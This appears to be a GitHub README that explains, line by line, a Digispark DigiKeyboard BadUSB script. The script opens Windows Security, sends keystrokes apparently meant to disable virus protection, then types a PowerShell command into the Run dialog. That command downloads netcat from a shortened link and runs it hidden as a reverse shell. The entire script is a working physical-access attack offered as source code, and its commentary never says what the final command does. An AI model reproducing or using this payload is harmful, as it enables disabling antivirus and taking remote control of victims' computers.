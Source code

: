 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>

<em>```This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.```<em>

<code color="#00979C">void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<em><p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p><em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function simulates pressing the Enter key.</p>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Yet another Enter key press is simulated.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function simulates pressing the Space key.</p>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>

<code color="#00979C">DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code color="#00979C">DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code color="#00979C">void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




